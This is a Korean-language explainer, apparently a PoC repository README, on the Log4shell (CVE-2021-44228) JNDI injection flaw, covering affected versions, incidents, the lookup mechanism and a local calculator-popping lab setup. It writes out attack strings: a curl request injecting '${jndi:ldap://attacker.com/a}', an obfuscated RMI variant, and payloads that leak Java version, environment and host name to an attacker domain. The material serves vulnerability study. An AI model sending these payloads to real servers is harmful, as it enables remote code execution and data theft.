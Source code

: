 # 취약점 발생 버전

2.0-beta9 ~ 2.14.1

# Log4shell 취약점과 관련된 CVE

CVE-2021-44228을 시작으로 CVE-2021-45046, CVE-2021-4104, CVE-2021-44832 등 5개의 취약점이 보고되었습니다.

# Log4shell 취약점 발생 사례

ONUS(베트남 암호화폐 거래소)가 사용하는 Cyclos 서버에서 Log4shell 취약점을 악용하고 백도어를 설치했습니다. 이후 Cyclos가 취약점을 ONUS에게 알리고 패치 지침을 제공하고, ONUS는 즉시 조치했습니다.
마인크래프트 게임은 채팅을 log4j를 이용해 서버 로그에 기록해서 해당 취약점이 발견되었습니다.
애플, 테슬라 등 대기업에서도 활동 기록을 log4j를 이용해 로그에 기록해서 해당 취약점이 발견되었습니다.

apache log4j 공식 사이트에 나온 fixed 패치 로그

![1](https://github.com/hbeooooooom/Log4shell_poc/blob/main/patch.png?raw=true)

# Log4shell 취약점 페이로드 설명

https://logging.apache.org/log4j/2.x/manual/lookups.html

log4j 라이브러이 중에서 Lookup 기능을 제공합니다. 이는 출력하는 로그에 시스템 속성 등 값을 변수 혹은 예약어를 사용해 출력할 수 있는 기능입니다.

`${}`형태의 문자열 변수를 전달합니다.

Log4j 내부에서 파싱(parsing)합니다.

전달된 기능을 수행하고 `${}`를 수행 결과 값으로 대체합니다.

1. ex) Header에 ${env:HOME}이란 값을 넣어 전달하면 서버 콘솔창에 /root가 출력됩니다.

이 Lookup이라는 기능중에 JNDI Lookup 기능으로 인해 취약점이 발생했습니다.

![2](https://github.com/hbeooooooom/Log4shell_poc/blob/main/Jndi_Lookup.png?raw=true)

보면 ${jndi:~~~~} 패턴을 사용합니다. JNDI는 SPI(Service Provider Interface)를 지원하는데 LDAP(Lightweight Directory Access Protocol)가 포함되어 있습니다. 즉 log4j 라이브러리를 이용해 JNDI Lookup을 사용할 수 있고, JNDI에는 SPI 기능 중 LDAP를 지원하기에 취약점이 발생했다고 볼 수 있습니다.

- SPI : Java 플렛폼에서 제공되는 인터페이스 중 하나로 라이브러리나 모듈이 플랫폼의 일부 기능을 구현하고 통합할 수 있는 메커니즘을 제공합니다.
- LDAP : 디렉터리 서비스에 접근하기 위한 표준 프로토콜입니다. 주로 사용자 인증, 사용자 검색 등을 관리하기 위해 사용되고 트리 구조로 데이터를 저장합니다.

쉽게말해 Lookup이라는 기능은 사용자의 입력을 신뢰하기 때문에 이를 jndi와 묶어 공격자가 자신의 서버에 올려둔 코드를 서버단에서 실행이 가능하단 것입니다.

# JNDI Injection

JNDI는 자바 애플리케이션을 외부 디렉토리 서비스에 연결하는데 사용합니다. 예로 주소 데이터베이스 또는 LDAP 서버

즉 외부의 객체를 가져오는 기술인데 JNDI를 통해 LDAP을 통해서 원격지의 Java class를 가져와 실행 가능하다는 것이 JNDI Injection입니다.

JNDI 구조에서 SPI(Service Provider Interface) 부분은 API에서 파생되었는데 이는 J2EE 플랫폼 기반의 네이밍과 디렉토리 서비스를 연결시켜 줍니다. 즉 “LDAP, DNS, NIS, RMI” 등의 프로토콜을 이용해 JNDI 콜 호출이 가능하다는 것이 가능하기 때문에 공격자는 LDAP 서버에 Exploit하기 위한 코드를 준비하면 원격지의 대상 서버에 class 형식의 코드를 응답시켜 원하는 명령을 실행시키도록 할 수 있습니다.

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

public void handle(HttpExchange he) throws IOException {

String userAgent = he.getRequestHeader("user-agent");

log.info("Request User Agent:{}", userAgent); }

HttpExchange 객체를 사용해 클라이언트의 User-Agent 헤더 값을 가져옵니다. User-Agent 헤더는 클라이언트의 웹 브라우저나 애플리케이션에 대한 정보를 제공하는 데 사용합니다.

그리고 가져온 User-Agent값을 로그에 출력합니다.

curl victim:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'

curl 명령어를 사용해 원격 서버인 victim의 8080포트로 HTTP 요청을 보냅니다. 이때 -H 옵션은 요청에 사용될 헤더를 설정합니다. User-Agent 헤더를 설정하고 JNDI 리소스를 호출하는데 이 때 ldap://attacker.com/a에 대한 JNDI 리소스는 victim  서버에서 동작하는 Java 기반의 애플리케이션에 취약점이 있는 경우에 성공 가능합니다.

대상 웹 서버는 공격자 서버(attacker.com/a)로 LDAP 쿼리를 요청합니다.

attacker LDAP에 준비된 Exploit 코드가 포함된 응답을 대상 서비스에 LDAP 쿼리 응답은 아래와 같습니다.

javaCodeBase:
http://attacker.com/a
javaClassName : RCE
objectClass: javaNamingReference

대상 서버에서 공격자 서버로 HTTP GET 요청을 하고 공격자 서버에 있는 RCE.class를 대상 서버에 응답해 코드가 실행됩니다.

![3](https://github.com/hbeooooooom/Log4shell_poc/blob/main/request.png?raw=true)

id 매개변수값이 URL 인코딩 되어 있었고 포함된 내용은 JNDI Injection 공격에 사용되는 페이로드입니다. Referer: '${${::-j}ndi:rmi://'+ argv[2] +'/ass}': Referer 헤더는 이전 페이지의 URL을 나타냅니다. User-Agent: '${${::-j}ndi:rmi://'+ argv[2] +'/ass}': User-Agent 헤더는 클라이언트의 소프트웨어나 브라우저에 대한 정보를 나타냅니다. 해당 값을 처리하고 JNDI 리소스를 호출하려고 하기 때문에 원격 코드가 실행될 수 있습니다.

${jndi:ldap://${java:version}.domain/a}
Java 버전을 확인하기 위해 사용합니다.
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
환경 변수인 JAVA_VERSION을 통해 java 버전을 확인할 수 있습니다.
${jndi:ldap://${sys:java.version}.domain/a}
Java 시스템 속성을 통해 Java 버전을 확인할 수 있습니다.
${jndi:ldap://${sys:java.vendor}.domain/a}
Java 공급 업체 정보를 확인할 수 있습니다.
${jndi:ldap://${hostName}.domain/a}
호스트 이름에 대한 정보를 확인할 수 있습니다.
${jndi:dns://${hostName}.domain}
DNS 조회를 통해 호스트 이름에 대한 정보를 확인할 수 있습니다.

# POC 구현 및 설명
![4](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC1.png?raw=true)

스프링 부트에 Spring Web 라이브러리만 추가해서 만들어줍니다.

![5](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC2.png?raw=true)

<groupId>org.springframework.boot</groupId>
<dependency>spring-boot-starter-log4j2<dependency>

를 추가해 log4j를 사용하도록 하였고

properties안에 <log4j2.version>2.14.0</log4j2.version>을 추가했습니다

![6](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC3.png?raw=true)

![7](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC4.png?raw=true)

ldap 서버를 세팅해주고

![8](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC5.png?raw=true)


보내게 되면

![9](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC6.png?raw=true)

![10](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC7.png?raw=true)

POC 원리는 log4j를 이용해 post 요청을 받도록 환경을 세팅해두고 postman 프로그램을 이용해 jndi injection을 수행합니다. 해당 입력이 들어오면 공격자 환경에서 세팅해둔 프로그램이 실행되어 계산기가 켜지게 됩니다.

공격 과정으로는

1. 공격자가 log4j를 이용해 로그를 기록하는 서버에 jndi injection을 보내게 됩니다.
2. 해당 서버는 공격자 서버에 있는 경로로 요청을 보냅니다.
3. 공격자 서버가 log4j를 이용해 로그를 기록하는 서버에 응답하며 공격 코드가 실행됩니다.

![11](https://github.com/hbeooooooom/Log4shell_poc/blob/main/POC8.png?raw=true)




